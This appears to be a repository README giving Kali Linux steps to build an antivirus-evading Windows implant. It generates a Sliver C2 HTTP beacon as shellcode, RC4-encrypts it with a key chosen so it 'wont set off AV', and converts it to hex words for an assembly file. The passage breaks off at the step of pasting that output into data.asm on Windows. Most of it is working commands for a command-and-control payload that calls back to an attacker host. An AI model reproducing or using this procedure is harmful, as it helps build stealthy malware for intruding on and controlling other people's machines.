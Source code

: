 # Kali Linux Steps
### The below steps assume you have already installed sliver as shown in my sliver-c2 repo.

### - Generate a Sliver beacon as follows:
```
sliver > generate beacon --seconds 30 --jitter 3 --os windows --arch amd64 --format shellcode --http <ip>, <ip>?driver=wininet --name wutai-http --save /tmp/v1/http.bin -G --skip-symbols
```
```
-G => disable their encoder
--skip-symbols => makes binary smaller
```
- output: /tmp/v1/http.bin

### - Do our own encrypt (use rc4.py from repo)
Use string "advapi32.dll" or something that wont set off AV as key.
```
cd /tmp/v1/
python3 rc4.py advapi32.dll http.bin
```
- output: http.bin.enc

### - Create a file (out.txt) containg a list of ascii hex formatted words (example: dw 05533h) for export to Windows C copilier 
```
hexdump -v -e '1/2 "dw 0%.4xh\n"' http.bin.enc | tee out.txt
```

- out.txt with be used in the assemply file on Windows

### - Copy the contents of the "out.txt" to  Windows Machine where we paste it into a file "data.asm" using "Notepad.exe".